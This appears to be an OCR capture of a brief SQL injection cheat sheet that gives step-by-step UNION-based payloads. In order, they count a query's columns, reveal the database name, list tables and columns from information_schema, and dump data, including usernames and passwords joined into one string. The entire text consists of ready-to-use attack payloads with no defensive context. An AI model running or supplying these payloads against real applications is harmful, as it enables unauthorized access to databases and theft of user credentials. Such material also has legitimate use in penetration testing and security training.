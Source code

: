 `UNION Injection` `Please REMOVE () Before Using the Commands`

`To find if SQLi Vulnarablity is Present`
```
0 UNION ALL SELECT 1,2,3,...; #               (Do This until you get a 200 service Result)
```
___
`To Find The Database Name`
```
0 UNION SELECT 1,2,...,database(); #
```
___
`Our next query will gather a list of tables that are in this database`
```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'DATABASE NAME'; #
```
___
`To find the 1st Column Name`
```
0 UNION ALL SELECT column_name,null,null,null,null... FROM information_schema.columns WHERE table_name="Give the Table Name here"; #
```
___
`To find all Column Names`
```
0 UNION ALL SELECT group_concat(column_name),null,null,null,null... FROM information_schema.columns WHERE table_name="Give the table name here"; #
```
___
`To Extract Data from SQL Database`
```
0 UNION ALL SELECT (Column name),null,null,null,null FROM (table name) WHERE (condition comes here if any, else skip WHERE); #
```
OR
```
0 UNION SELECT 1,2,...,group_concat(username,':',password SEPARATOR '<br>') FROM TABLENAME; #
```
___
